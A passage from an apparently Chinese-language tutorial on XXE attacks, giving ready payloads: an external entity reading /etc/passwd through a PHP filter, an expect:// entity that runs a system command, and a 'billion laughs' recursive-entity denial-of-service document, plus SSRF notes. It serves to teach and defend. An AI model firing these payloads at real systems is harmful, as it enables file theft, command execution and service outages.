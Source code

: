```xml
//通过PHP伪协议
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ENTITY a SYSTEM ‘php://filter/read=convert.base64-encode/resource=/etc/passwd’>]>  
```

**SSRF**

​	DTD支持http、ftp、gopher等网络协议，通过这些协议可以发送SSRF攻击请求，包括内网探测及攻击内网服务器等。

![ssrf1](http://reverse-tcp.xyz/img/xxe/SSRF1.png)

![ssrf2](http://reverse-tcp.xyz/img/xxe/SSRF2.png)

**RCE**

​	 如果目标服务器的PHP安装有expect扩展，则可以进行系统命令执行。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
   <user>&xxe;</user>
   <pass>mypass</pass>
</creds>
```



![RCE](http://reverse-tcp.xyz/img/xxe/RCE.png)

**DOS**

​	通过实体递归的方式耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，造成DOS攻击。

```xml
<?xml version = "1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">]>
<lolz>&lol9;</lolz>
```

### 漏洞防御
